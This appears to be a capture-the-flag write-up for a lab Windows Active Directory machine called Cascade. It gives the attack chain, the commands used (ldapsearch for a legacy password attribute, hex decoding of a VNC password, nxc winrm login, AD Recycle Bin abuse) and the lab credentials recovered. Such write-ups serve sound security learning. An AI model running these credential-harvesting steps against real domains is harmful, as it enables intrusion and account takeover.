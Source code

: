 # Cascade \[Windows AD Medium]

## Report

{% embed url="https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html" %}

ldapsearch reveals creds for user 'r.thompson'  who has access to SMB shares where four files mentioned in the cheatsheet are of interest. The VNC install was found in the directory of 's.smith' which contians a registry exposing a password in hex. Decrypt to get creds.

User is part of the group 'Audit Share' which has a comment pointing towards the SMB share audit which is inaccessible locally. Find a db and exe file, the db however has encypted creds for 'ArkSvc', debug using dnSPY to get creds.

This user is part of the AD Recycle Bin manager and we finally use the hint we saw at the start from the arkadrecyclebin.log file where TempAdmin has the same creds as Admin. Showing deleted objects exposes creds for Admin&#x20;

## Cheatsheet

```
ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=Person)' | grep cascadeLegacyPwd

[email.html] Username is TempAdmin (password is the same as the normal admin account password)
[dcdiag.log] The WinRM service failed to create the following SPNs: WSMAN/CASC-DC1.cascade.local; WSMAN/CASC-DC1
[vncinstall.reg] "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
[arkadrecyclebin.log] Users test and TempAdmin have been moved to AD recycle bin
tightvnc - rdp software

echo -n 6bcf2a4b6e5aca0f | xxd -r -p > passwd

s.smith - the recycle bin shi didnt work but its part of a new group Audit Users
net localgroup "Audit Share"
Comment        \\Casc-DC1\Audit$
C:\Shares not accessible, however it is via SMB

.tables
.schema tablename
SELECT * FROM tablename;

FInd an exe and db file Audit.db -> dnSPY to debug at breakpoint and see plaintext password OR check encryption function, hardcoded IV and key and reveng
nxc winrm 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

## Loot

### Creds

```
r.thompson:rY4n5eva (from ldapsearch)
s.smith:sT333ve2 (crack the rdp encrypted password)
ArkSvc:w3lc0meFr31nd (debug exe file)
```



```
CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local)

user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]

group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[DnsUpdateProxy] rid:[0x44f]

SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```

### Proof

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>
